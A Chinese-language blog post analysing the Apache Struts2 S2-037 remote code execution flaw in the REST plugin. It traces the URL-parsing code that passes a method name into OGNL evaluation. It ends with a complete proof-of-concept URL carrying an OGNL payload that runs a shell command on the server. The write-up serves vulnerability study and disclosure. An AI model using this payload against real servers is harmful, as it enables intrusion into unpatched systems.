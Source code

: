 ```yaml
---
layout: post  
title: "2017-11-03-struts2漏洞调试合集之S2-037"  
date: 2017-11-03  
description: "java漏洞"  
tag: 漏洞分析
---
```

#介绍  
其实这个037就是033的绕过，虽然点不一样，033需要开启动态函数调用，但是037找到了不需要开启动态函数的地方。
![](http://pic.findbugs.top/17-11-6/42641946.jpg)
官方的说明，在启用rest时，可能会造成远程代码执行，rest最近也出了一个xml反序列漏洞，具体的漏洞原因可以看我的前几次文章。[http://www.codersec.net/2017/09/s2052%E6%BC%8F%E6%B4%9E%E8%A7%A3%E6%9E%90%E5%92%8C%E8%A1%A5%E4%B8%81%E5%88%86%E6%9E%90/](http://www.codersec.net/2017/09/s2052%E6%BC%8F%E6%B4%9E%E8%A7%A3%E6%9E%90%E5%92%8C%E8%A1%A5%E4%B8%81%E5%88%86%E6%9E%90/)。基本可以定位了，那就是直接分析struts2-rest-plugin了。
#分析  
好在struts2-rest-plugin代码量不多，如果分析过s2-052的也知道。插件的一些知识点
![](http://pic.findbugs.top/17-11-6/6138604.jpg)其实最终的触发点和之前分析的s2-032是一样的，都是在DefaultActionInvocation里的OgnlUtil.callMethod里面触发。那么追究其原因，就是在向ActionMapping放入键值对的时候没有过滤好。在RestActionMapper.java 的getMapping处下断点。
我把关键代码贴出来，代码的运行过程满满地描述出来
```
    ActionMapping mapping = new ActionMapping();  
    String uri = RequestUtils.getUri(request);
        uri = dropExtension(uri, mapping);//除去url后缀，将/order/233.xml(xml,xhtml,json,'')去掉,如果url不是这类的，就返回404,其中xml,json,xhtml这类格式的都是用来做接口用的，如果不是这类的后缀，那么uri为空，这样下一步的if就直接return结束了,直接404
        if (uri == null) {
            return null;
        }
        parseNameAndNamespace(uri, mapping, configManager);//解析map的名字和空间
        handleSpecialParameters(request, mapping);//处理特殊的参数
        if (mapping.getName() == null) {
            return null;
        }
         // handle "name!method" convention.
        handleDynamicMethodInvocation(mapping, mapping.getName());//解析动态方法调用，这里是重点!!!!!!
        String fullName = mapping.getName();
        // Only try something if the action name is specified```
下面继续看handleDynamicMethodInvocation函数
```
private void handleDynamicMethodInvocation(ActionMapping mapping, String name) {
        int exclamation = name.lastIndexOf("!");
        if (exclamation != -1) {
            mapping.setName(name.substring(0, exclamation));//获取name
            if (allowDynamicMethodCalls) {
                mapping.setMethod(name.substring(exclamation + 1));
            } else {
                mapping.setMethod(null);
            }
        }
    }
```
如果开启了动态调用，那么mapping.setMethod就设置进去，后面的执行就和s2-032一样了，这个是s2-033的点。如果设置动态调用,直接修改struts.xml就ok了。
![](http://pic.findbugs.top/17-11-6/298879.jpg)
接下来就厉害了，
    ```
String fullName = mapping.getName();
        // Only try something if the action name is specified
        if (fullName != null && fullName.length() > 0) {

            // cut off any ;jsessionid= type appendix but allow the rails-like ;edit
            int scPos = fullName.indexOf(';');
            if (scPos > -1 && !"edit".equals(fullName.substring(scPos + 1))) {
                fullName = fullName.substring(0, scPos);
            }

            int lastSlashPos = fullName.lastIndexOf('/');
            String id = null;
            if (lastSlashPos > -1) {

                // fun trickery to parse 'actionName/id/methodName' in the case of 'animals/dog/edit'
                int prevSlashPos = fullName.lastIndexOf('/', lastSlashPos - 1);
                if (prevSlashPos > -1) {
                    mapping.setMethod(fullName.substring(lastSlashPos + 1));
                    fullName = fullName.substring(0, lastSlashPos);
                    lastSlashPos = prevSlashPos;
                }
                id = fullName.substring(lastSlashPos + 1);
            }
    ```
如何让mapping.setMethod执行,其实逻辑也很简单，只需要两个//即可，按照官方给的注释，其实官方的本来意思是想将'actionName/id/methodName'这类url单独解析,提取的函数的方式也就是fullName.substring(lastSlashPos + 1),这样函数名最终被带入到mapping，然后最后经过DefaultActionInvocation里面的OgnlUtil.callMethod之行ongl表达式,poc如下:
```
http://127.0.0.1:8080/s2-037/orders/4/(%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23wr%3d%23context%5b%23parameters.obj%5b0%5d%5d.getWriter(),%23rs%3d@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()),%23wr.println(%23rs),%23wr.flush(),%23wr.close()):xx.toString.json?&obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=16456&command=whoami
```
